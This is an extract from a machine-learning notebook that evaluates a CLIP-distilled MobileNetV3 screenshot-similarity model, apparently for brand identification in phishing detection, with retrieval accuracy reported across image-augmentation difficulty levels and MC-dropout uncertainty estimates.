

Evaluating: Easy


100%|██████████| 270/270 [00:42<00:00,  6.35it/s]


Top1          : 98.52
Similarity    : 0.9978
Margin        : 0.0655
MC Std        : 0.0064




Evaluating: Medium


100%|██████████| 270/270 [00:43<00:00,  6.22it/s]


Top1          : 95.56
Similarity    : 0.9864
Margin        : 0.0494
MC Std        : 0.0073




Evaluating: Hard


100%|██████████| 270/270 [00:42<00:00,  6.30it/s]


Top1          : 70.00
Similarity    : 0.9671
Margin        : 0.0236
MC Std        : 0.0079




Evaluating: VeryHard


100%|██████████| 270/270 [00:44<00:00,  6.05it/s]


Top1          : 29.63
Similarity    : 0.9583
Margin        : 0.0080
MC Std        : 0.0074




Evaluating: Extreme


100%|██████████| 270/270 [00:44<00:00,  6.09it/s]


Top1          : 21.48
Similarity    : 0.9564
Margin        : 0.0074
MC Std        : 0.0075




In [10]:
# VIS MODEL AUGMENTATION ABLATION STUDY
# ── CONFIG ─────────────────────────────────────────────────────
BASE_DIR      = "/kaggle/input/datasets/**/phiscap-hf/FC_Legit_Phis/Legit"
EMBED_DIM     = 512
MC_PASSES     = 20
SIM_THRESHOLD = 0.80
BATCH_SIZE    = 8
EPOCHS        = 30
LR            = 1e-3
RANDOM_SEED   = 42
DEVICE = torch.device("cuda" if torch.cuda.is_available() else "cpu")
print(f"Device: {DEVICE}")

torch.manual_seed(RANDOM_SEED)
np.random.seed(RANDOM_SEED)

# Ablation part
LOSS_MODE = "HYBRID"
#LOSS_MODE = "COSINE"
#LOSS_MODE = "MSE"
# ── TRANSFORMS ──────────────────────────────────────────────────
VIS_TRANSFORM = T.Compose([
    T.Resize((224, 224)),
    T.ToTensor(),
    T.Normalize(mean=[0.485,0.456,0.406],
                std =[0.229,0.224,0.225])
])

# ── DATASET ─────────────────────────────────────────────────────
print("\n[2/6] Loading screenshots...")
class BrandDataset(Dataset):
    def __init__(self, root, domain_map, vis_tf, clip_tf):
        self.vis_tf  = vis_tf
        self.clip_tf = clip_tf
        self.samples = []
        self.site_names = sorted([d for d in os.listdir(root) if os.path.isdir(os.path.join(root, d))])
        EXTS = {'.png','.jpg','.jpeg','.webp'}
        for idx, site in enumerate(self.site_names):
            site_dir = os.path.join(root, site)
            imgs = [f for f in os.listdir(site_dir)if os.path.splitext(f)[1].lower() in EXTS]
            for img in sorted(imgs):
                self.samples.append((os.path.join(site_dir, img), idx))
            # print(f"  {site:<20} {len(imgs)} screenshots")

        # print(f"\n  Brands: {len(self.site_names)} | " f"Total: {len(self.samples)}")

    def __len__(self): return len(self.samples)

    def __getitem__(self, idx):
        path, site_idx = self.samples[idx]
        img = Image.open(path).convert("RGB")
        return (self.vis_tf(img),
                self.clip_tf(img),
                site_idx)

dataset  = BrandDataset(BASE_DIR, DOMAIN_MAP, VIS_TRANSFORM, clip_prep)
N_SITES  = len(dataset.site_names)
n_train  = int(0.8 * len(dataset))
n_val    = len(dataset) - n_train
tr_set, vl_set = torch.utils.data.random_split(dataset, [n_train, n_val],generator=torch.Generator().manual_seed(RANDOM_SEED))
tr_ldr = DataLoader(tr_set, BATCH_SIZE,shuffle=True,  num_workers=2)
vl_ldr = DataLoader(vl_set, BATCH_SIZE,shuffle=False, num_workers=2)

# ── ViS MODEL (MobileNetV3-Small) ───────────────────────────────
print("\n[3/6] Building ViS model...")
vis_model = ViS(out_dim=EMBED_DIM).to(DEVICE)
n_par = sum(p.numel() for p in vis_model.parameters())
print(f"  Params : {n_par:,}  (~{n_par*4/1e6:.1f} MB)")


@torch.no_grad()
def clip_embed(imgs):
    f = clip_model.encode_image(imgs)
    return F.normalize(f.float(), p=2, dim=1)
    
vis_model.load_state_dict(torch.load("vis_best.pt"))
print("  Saved vis_best.pt")

# ── BUILD EMBEDDINGDB ────────────────────────────────────────────
print("\n[5/6] Building EmbeddingDB from ViS embeddings...")
vis_model.eval()
all_embs, all_idxs = [], []
train_db_loader = DataLoader(
    dataset,
    batch_size=BATCH_SIZE,
    shuffle=False
)

with torch.no_grad():
    for vis_imgs, _, idxs in train_db_loader:
        embs = vis_model(vis_imgs.to(DEVICE))
        all_embs.append(embs.cpu())
        all_idxs.extend(idxs.tolist())

all_embs = torch.cat(all_embs)

EmbeddingDB = {}
for site_idx, site_name in enumerate(dataset.site_names):
    mask  = [i for i, s in enumerate(all_idxs)
             if s == site_idx]
    embs  = all_embs[mask]
    EmbeddingDB[site_name] = {
        'embeddings': embs,
        'domain'    : DOMAIN_MAP.get(
                        site_name,
                        site_name.lower() + ".com"),
        'n_shots'   : embs.size(0)
    }
    print(f"  {site_name:<20} " f"{embs.size(0)} embeddings")

torch.save(EmbeddingDB, "vis_embedding_db.pt")
print("  Saved vis_embedding_db.pt")
print("  CLIP no longer needed at inference.")


import random
from torchvision.transforms import functional as TF
from PIL import Image, ImageFilter
import torchvision.transforms as T
from tqdm import tqdm


to_pil = T.ToPILImage()

normalize = T.Normalize(
    mean=[0.485,0.456,0.406],
    std =[0.229,0.224,0.225]
)

to_tensor = T.Compose([
    T.Resize((224,224)),
    T.ToTensor(),
    normalize
])

# -------------------------------------------------
# Augmentation function
# -------------------------------------------------
# ── MC-DROPOUT RETRIEVE FUNCTION FOR AUGMENTATION ABLATION ─────
def enable_mc_dropout(model):
    for m in model.modules():
        if isinstance(m, nn.Dropout):
            m.train()

@torch.no_grad()
def retrieve(img_tensor):
    """
    img_tensor: (3, 224, 224) normalized tensor (single image, no batch dim)
    Returns: (pred_site, best_sim, margin, mc_std)
    """
    vis_model.eval()
    enable_mc_dropout(vis_model)   # keep dropout active for MC passes

    x = img_tensor.unsqueeze(0).to(DEVICE)

    # ── MC Dropout forward passes ───────────────────────────────
    mc_embs = []
    for _ in range(MC_PASSES):
        mc_embs.append(vis_model(x).cpu())
    mc_embs  = torch.cat(mc_embs)                      # (MC_PASSES, EMBED_DIM)
    mean_emb = F.normalize(mc_embs.mean(0), p=2, dim=0) # (EMBED_DIM,)

    # ── Per-site MAX similarity vs stored embeddings ────────────
    site_scores = {}
    for site, entry in EmbeddingDB.items():
        stored = entry['embeddings']                    # (n_shots, EMBED_DIM)
        sims = F.cosine_similarity(
            mean_emb.unsqueeze(0).expand(stored.size(0), -1),
            stored, dim=1
        )
        site_scores[site] = sims.max().item()

    ranked = sorted(site_scores.items(), key=lambda x: -x[1])
    best_site, best_sim = ranked[0]
    second_sim = ranked[1][1] if len(ranked) > 1 else 0.0
    margin = best_sim - second_sim

    # ── MC uncertainty (std of best-site similarity across passes) ─
    best_stored = EmbeddingDB[best_site]['embeddings']
    pass_sims = []
    for i in range(MC_PASSES):
        e = F.normalize(mc_embs[i], p=2, dim=0)
        sims = F.cosine_similarity(
            e.unsqueeze(0).expand(best_stored.size(0), -1),
            best_stored, dim=1
        )
        pass_sims.append(sims.max().item())
    mc_std = float(np.array(pass_sims).std())

    return best_site, best_sim, margin, mc_std


def augment_image(img, level):

    if level == 0:
        return img

    if level == 1:
        aug = T.ColorJitter(
            brightness=0.10,
            contrast=0.10
        )

    elif level == 2:
        aug = T.Compose([
            T.ColorJitter(
                brightness=0.20,
                contrast=0.20
            ),
            T.GaussianBlur(3)
        ])

    elif level == 3:
        aug = T.Compose([
            T.ColorJitter(
                brightness=0.30,
                contrast=0.30
            ),
            T.GaussianBlur(5),
            T.RandomRotation(5)
        ])

    elif level == 4:
        aug = T.Compose([
            T.ColorJitter(
                brightness=0.40,
                contrast=0.40,
                saturation=0.20
            ),
            T.GaussianBlur(7),
            T.RandomPerspective(
                distortion_scale=0.25,
                p=1.0
            ),
            T.RandomRotation(8)
        ])

    else:

        aug = T.Compose([

            T.ColorJitter(
                brightness=0.50,
                contrast=0.50,
                saturation=0.30,
                hue=0.10
            ),

            T.RandomPerspective(
                distortion_scale=0.35,
                p=1.0
            ),

            T.RandomRotation(10),

            T.GaussianBlur(9)
        ])

    return aug(img)

from sklearn.metrics import confusion_matrix, ConfusionMatrixDisplay
import pandas as pd

results = []

LEVEL_NAMES = {
    0:"Original",
    1:"Easy",
    2:"Medium",
    3:"Hard",
    4:"VeryHard",
    5:"Extreme"
}

for LEVEL in range(6):

    print("="*60)
    print("Evaluating:", LEVEL_NAMES[LEVEL])
    print("="*60)

    y_true=[]
    y_pred=[]

    best_sims=[]
